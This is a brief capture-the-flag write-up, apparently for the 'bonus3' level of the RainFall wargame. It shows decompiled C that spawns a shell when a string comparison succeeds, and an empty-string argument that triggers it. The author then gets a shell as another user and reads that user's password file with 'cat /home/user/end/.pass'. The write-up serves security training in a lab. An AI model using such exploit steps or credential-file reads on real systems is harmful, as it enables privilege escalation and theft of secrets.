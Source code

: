 
# Bonus 3

We have a program who take an argument:
```sh
$ ./bonus3 
$ ./bonus3 42

$ 
```

By reading the decompiled code, we found thoses lines:
```c
ptr[atoi(argv[1])] = 0;
if (strcmp(ptr, argv[1]) == 0)
    execl("/bin/sh", "sh");
```

So if argv[1] is "\0", ptr[0] will also be 0, and strcmp will compare 0 and 0.

```sh
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
```